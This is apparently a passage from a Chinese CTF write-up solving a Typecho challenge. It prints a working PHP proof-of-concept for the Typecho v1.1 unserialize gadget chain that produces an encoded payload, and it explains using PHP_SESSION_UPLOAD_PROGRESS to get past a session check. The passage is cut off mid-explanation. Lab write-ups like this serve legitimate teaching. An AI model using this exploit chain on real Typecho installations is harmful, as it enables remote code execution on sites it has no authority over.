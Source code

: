 传入 `delay=2148483648`，得到flag

### EZ三剑客-EzTypecho
这个看到typeecho即可考虑到`typeecho v1.1 反序列化漏洞 ` 。找到poc及分析

```php
<?php
    class Typecho_Request
    {
        private $_params = array();
        private $_filter = array();

        public function __construct()
        {
            $this->_params['screenName'] = 1; // 执行的参数值
            $this->_filter[0] = 'phpinfo'; //filter执行的函数
        }
    }
    class Typecho_Feed{
        const RSS2 = 'RSS 2.0';
        private $_items = array();
        private $_type;
        function __construct()
        {
            $this->_type = self::RSS2; //进入toString内部判断条件
            $_item['author'] = new Typecho_Request(); //Feed.php文件中触发__get()方法使用的对象
            $this->_items[0] = $_item;
        }
    }
    $exp = new Typecho_Feed();
    $a = array(
        'adapter'=>$exp, // Db.php文件中触发__toString()使用的对象
        'prefix' =>'typecho_'
    );
    echo urlencode(base64_encode(serialize($a)));

?>
```

[入门教学 | Typecho反序列化漏洞分析](https://www.anquanke.com/post/id/155306)

但是在源码中又加了一道限制

```text
if(!isset($_SESSION)) { die('no, you can\'t unserialize it without session QAQ');}
```

但是又发现题目将`start_session()`注释掉了，这就不能用传统的方法来写入session了

参考官方wp，给出了`PHP_SESSION_UPLOAD_PROGRESS`这个概念
```text
当 session.upload_progress.enabled INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态

当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，上传进度可以在$_SESSION中获得。 当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据, 索引是 session.upload_progress.prefix 与 session.upload_progress.name连接在一起的值。 通常这些键值可以通过读取INI设置来获得，
```
